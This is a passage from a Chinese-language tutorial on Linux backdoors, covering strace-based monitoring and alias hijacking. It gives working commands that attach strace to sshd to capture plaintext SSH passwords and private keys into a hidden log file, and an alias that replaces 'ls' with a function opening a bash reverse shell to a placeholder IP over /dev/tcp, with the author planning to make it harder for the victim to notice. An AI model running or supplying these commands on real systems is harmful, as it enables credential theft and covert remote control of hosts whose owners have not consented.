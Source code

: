 ## 0x02 监控功能-Strace后门

strace是一个动态跟踪工具，它可以跟踪系统调用的执行，可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围

#### 利用

记录`sshd`的明文：

```bash
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)
```

此时，只要有人ssh连接该系统就会记录：

```bash
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log
```

![截图](95447093818caf024c481c51edb80973.png)

记录`sshd`私钥：

```bash
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)
```

```bash
grep 'PRIVATE KEY' /tmp/.sshd.log
```

## 0x03 命令自定义-Alias后门

`alias`是Linux系统自带的一个设置别名的命令，即：为命令设置别名。

定义：`alias ls='ls -al'`

此后，每次输入ls命令的时候都能实现`ls -al`

删除：`unalias ls`

效果：

![截图](3fe82c5fa0b89229cb7a58924fb58824.png)

#### 利用

这里，我们可以使用一个简单版本的测试看看效果：

```bash
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/5555 0>&1; };alerts'
```

此处命令最终可以实现一个反弹shell的作用。

![截图](baf5c759e06277fe2c064a0fa2b925dc.png)

但是这里很明显有个bug，就是当我们的centos执行了这个别名的`ls`后，命令行这里就一直卡住了。而这种情况很容易被对方发现，因此我们需要稍加改正！！
